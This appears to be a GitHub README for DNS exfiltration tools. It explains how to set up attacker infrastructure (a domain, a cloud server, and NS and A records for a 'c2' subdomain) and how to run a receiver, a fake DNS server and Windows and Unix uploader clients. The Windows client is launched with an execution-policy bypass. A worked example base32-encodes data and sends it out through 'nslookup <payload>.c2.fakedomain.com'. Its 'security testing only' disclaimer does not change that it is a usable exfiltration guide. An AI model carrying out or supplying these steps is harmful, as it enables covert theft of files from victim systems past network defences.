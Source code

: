 DNS Exfiltration Tools
ALL OTHER TOOLS NOT DOCUMENTED HERE ARE WORKS IN PROGRESS
I AM NOT RESPONSIBLE FOR ANY MISUSE OF THESE TOOLS THESE ARE FOR SECURITY TESTING ONLY

Infrastrucutre Set Up:
MUST OWN A DOMAIN AND AN INTERNET CONNECTED SERVER

AWS VM IP: 123.123.123.123
Cloudflare domain: fakedomain.com
In Cloudflare DNS managager:
  Create NS record: c2.fakedomain.com
  Create A record for c2: 123.123.123.123
  Create A records for example.com: 123.123.123.123

Tool Usage:
dns_file_receiver.py (Unix) (Server)
  Change the "domain" parameter to: c2.fakedomain.com
  Change the "SOCKET_TIMEOUT" to whatever is appropriate in seconds. This variable defines how long the script will stay active waiting for a connection from the uploaders.
  Run the script: sudo python3 dns_file_receiver.py

dns_file_uploader.ps1 (Windows) (Client)
  Change the "domain" parameter to: c2.fakedomain.com
  Run the script: powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
  Follow the prompts
    File path: quotes can be used
    Domain OR IP: IP address of AWS server (123.123.123.123) or domain name (fakedomain.com)
    Set up a random delay in seconds: #

dns_file_uploader (Unix) (Client)
  Change "DNS_SERVER" parameter to: IP address of AWS server (123.123.123.123) or domain name (fakedomain.com)
  Change "domain" parameter to: c2.fakedomain.com
  Run the script: sudo python3 dns_file_uploader.py
    File path: quotes can be used
    Set up a random delay in seconds: #

ns-dns_server.py (Unix) (Server)
  Change m = re.search(r'([A-Z2-7]+)\.<subdomain>\.<domain>\.com', domain_name) to : m = re.search(r'([A-Z2-7]+)\.c2\.fakedomain\.com', domain_name)
  Optional: Change the IP in the "fake_ip" parameter
  Run the script: sudo python3 ns-dns_server.py
  
This script requires the client to run a base32 payload.
Use https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D') to create the payload.
Once payload is created.
Run: nslookup <payload>.c2.fakedomain.com
Ex. INPUT: TESTING TESTING 123
    OUTPUT: KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
    nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
